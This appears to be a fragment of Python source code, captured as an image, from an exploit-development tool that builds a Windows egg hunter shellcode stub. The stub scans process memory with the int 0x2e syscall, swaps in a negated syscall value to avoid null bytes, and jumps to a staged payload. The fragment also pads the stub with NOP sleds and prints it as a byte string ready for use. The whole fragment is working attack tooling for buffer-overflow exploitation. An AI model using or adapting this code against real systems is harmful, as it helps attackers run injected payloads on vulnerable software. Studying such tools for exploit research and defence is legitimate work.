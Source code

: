 ```
    # Check for null bytes
    if "\\x00" in instructions:
        print("[*] Null bytes detected in the egg hunter")
        user_choice = input("[*] Do you want to use negated syscall to avoid null bytes? (Y/N): ").lower()
        if user_choice == "y":
            negated_syscall_hex = calculate_negated_syscall(ntaccess)
            print(f"[+] Using negated syscall value: 0x{negated_syscall_hex}")
            CODE = (

                "							 "
                "	loop_inc_page:			 "
                "		or dx, 0x0fff		;"
                "	loop_inc_one:			 "
                "		inc edx				;"
                "	loop_check:				 "
                "		push edx			;"
                f"		mov eax, 0x{negated_syscall_hex}	;"
                "		neg eax				;"
                "		int 0x2e			;"
                "		cmp al,05			;"
                "		pop edx				;"
                "	loop_check_valid:		 "
                "		je loop_inc_page	;"
                "	is_egg:					 "
                f"		mov eax, 0x{little_endian}	;"
                "		mov edi, edx		;"
                "		scasd				;"
                "		jnz loop_inc_one	;"
                "		scasd				;"
                "		jnz loop_inc_one	;"
                "	matched:				 "
                "		jmp edi				;"
            )
            encoding, instructions = generate_egghunter(CODE)

    # Adding NOPs if specified
    if nop_count_before > 0:
        instructions = "\\x90" * nop_count_before + instructions
    if nop_count_after > 0:
        instructions += "\\x90" * nop_count_after

    out = "[+] Egg Hunter generated successfully\n"
    out += f"Egg Hunter size: {len(encoding)}\n"
    out += f"Egg Hunter size with NOPs: {len(encoding) + nop_count_before + nop_count_after}\n"
    out += f"Egg Hunter: egghunter = b\"{instructions}\""
    return out

def save_output(data):
    global OUTPUT_PATH
    if OUTPUT_PATH:
        try:
            with open(OUTPUT_PATH, 'w', encoding='utf-8') as file:
                file.write(data)
            log(f"Output saved to {OUTPUT_PATH}")
        except IOError as e:
            log(f"Error writing to file: {e}")
    else:
        log("No output path provided. Printing to console:")
        print(data)

def log(msg):
    print("[+] " + msg)
```